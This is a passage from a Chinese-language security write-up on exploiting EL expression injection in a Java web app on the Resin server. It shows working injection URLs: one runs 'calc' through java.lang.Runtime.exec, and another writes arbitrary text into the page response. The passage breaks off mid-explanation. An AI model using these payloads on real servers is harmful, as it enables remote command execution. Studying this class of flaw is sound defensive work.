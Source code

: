 下面我们来看下在 Resin 环境下的利用方法，先来看个直接的演示，访问链接：

```
http://localhost:8080/test.do?${pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc",null).toString()} 
```

效果如下图所示：

![此处输入图片的描述](img/img3_u26_png.jpg)

我曾一度想要写出像 Struts 那样可以执行命令并回显的利用代码，但是由于 EL 表达式并没有提供变量和赋值的功能，让我不得不去想可以有相同的效果的方法。初步的思路是，利用 EL 可以存储任意类型 session 这个功能，对命令执行的结果流进行存储和处理，最后转换为字符串，打印到页面上。

我找到了打印任意内容到页面的方法，即通过 EL 提供的 pageContext 中 response 对象中的 println 方法。例如：访问

```
http://localhost:8080/test.do?a=${pageContext.response.getWriter().println('aaa')} 
```

会返回 500 错误，在错误中会显示我们的自定义内容：
